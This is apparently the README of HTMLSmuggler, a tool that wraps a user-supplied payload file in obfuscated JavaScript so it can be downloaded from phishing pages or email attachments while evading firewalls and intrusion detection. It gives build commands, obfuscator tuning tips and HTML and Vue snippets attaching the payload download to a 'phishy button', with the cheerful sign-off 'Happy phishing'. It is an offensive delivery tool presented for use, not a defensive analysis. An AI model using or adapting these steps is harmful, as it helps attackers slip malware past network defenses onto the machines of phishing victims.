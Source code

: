 # HTMLSmuggler ✉️

HTMLSmuggler - JS payload generator for IDS bypass and payload delivery via HTML smuggling.

## Description

The primary objective of HTML smuggling is to bypass network security controls, such as firewalls and intrusion detection systems, by disguising malicious payloads within seemingly harmless HTML and JavaScript code. By exploiting the dynamic nature of web applications, attackers can deliver malicious content to a user's browser without triggering security alerts or being detected by traditional security mechanisms. Thanks to this technique, the download of a malicious file is not displayed in any way in modern IDS solutions.

The main goal of HTMLSmuggler tool is creating an independent javascript library with embedded malicious user-defined payload. This library may be integrated into your phishing sites/email html attachments/etc. to bypass IDS and IPS system and deliver embedded payload to the target user system. An example of created javascript library may be found [here](examples/html/payload.umd.js).

## Features

* Built-in highly configurable JavaScript obfuscator that fully hides your payload.
* May be used both as an independent JS library or embedded in JS frameworks such as React, Vue.js, etc.
* The simplicity of the template allows you to add extra data handlers/compressions/obfuscations.

## Installation

1. [Install yarn](https://classic.yarnpkg.com/lang/en/docs/install/) package manager.
2. Install dependencies:

    ```bash
    yarn
    ```

3. Read help message.

    ```bash
    yarn build -h
    ```

    ```text
    Options:
      -p, --payload <string>  Path to payload file you want to smuggle
      -n, --name <string>     Name of file, that would be downloaded
      -c, --compress          Enable payload compression (gzip)
      -t, --type <string>     Contet-Type of downlonaded file (default: "application/octet-stream")
      -h, --help              Display help for command
    ```

## Usage

### Preparation steps

1. Modify (or use my) [javascript-obfuscator options](https://github.com/javascript-obfuscator/javascript-obfuscator#javascript-obfuscator-options) in `obfuscator.js`, my preset is nice, but very slow.
2. Compile your javascript payload:

    ```bash
    yarn build -p /path/to/payload -n file.exe -t "application/octet-stream" -c
    ```

3. Get your payload from `dist/payload.esm.js` or `dist/payload.umd.js`. After that, it may be inserted into your page and called with `download()` function.

> `payload.esm.js` is used in `import { download } from 'payload.esm';` imports (ECMAScript standart).
>
> `payload.umd.js` is used in html script SRC and `require('payload.umd');` imports (CommonJS, AMD and pure html).

### Pure HTML example

A full example may be found [here](examples/html/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to html file (or insert it inline):

    ```html
    <head>
      <script src="payload.umd.js"></script>
    </head>
    ```

3. Call `download()` function from body:

    ```html
    <body>
      <button onclick="download()">Some phishy button</button>
    </body>
    ```

4. Happy phishing :)

### VueJS example

A full example may be found [here](examples/vuejs/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to vue file:

    ```vue
    <script>
      import { download } from './payload.esm';
    </script>
    ```

3. Call `download()` function:

    ```vue
    <template>
      <button @click="download()">Some phishy button</button>
    </template>
    ```

4. Happy phishing :)

## FAQ

**Q**: I have an error `RangeError: Maximum call stack size exceeded`, how to solve it?

**A**: This [issue described here](https://github.com/javascript-obfuscator/javascript-obfuscator/issues/89). To fix it, try to disable `splitStrings` in `obfuscator.js` or make smaller payload (it's recommended to use up to 2 MB payloads because of this issue).

---

**Q**: Why does my payload build so long?

**A**: The bigger payload you use, the longer it takes to create a JS file. To decrease time of build, try to disable `splitStrings` in `obfuscator.js`. Below is a table with estimated build times using default `obfuscator.js`.

| Payload size | Build time |
| --- | --- |
| 525 KB | 53 s |
| 1.25 MB | 8 m |
| 3.59 MB | 25 m |

